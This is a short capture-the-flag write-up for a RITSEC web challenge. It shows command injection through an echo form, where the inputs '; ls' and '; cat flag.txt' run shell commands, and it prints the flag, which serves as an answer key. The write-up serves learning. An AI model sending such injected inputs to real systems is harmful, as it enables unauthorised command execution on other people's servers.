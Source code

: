 # Echose
> Do you hear that?

> https://echoes-web.challenges.ctf.ritsec.club/

## About the Challenge
We were given a website that has a functionality print our input


[Image extracted text: RITSEC Echo Simulator
Test out some different words below :)
Enter a word here:
test
Test word]


## How to Solve?
This website was vulnerable to Command Injection. Try to input `; ls` to run `ls` command


[Image extracted text: You entered:
This word echoes (echoes) (echoes)_see?
Is
Is
check php
flag txt
images
index.html
styles css
Click here to checkanotherword]


As we can see there is a file called `flag.txt` try read it using `; cat flag.txt` command


[Image extracted text: You entered:
cat
txt
This word echoes (echoes) (echoes)_see?
cat
txt
cat
RS{R3SOUNDING_
SUCS3SSI}
Click here to check anotherword
flag:
flag-
flag-
txt]


```
RS{R3S0UND1NG_SUCS3SS!}
```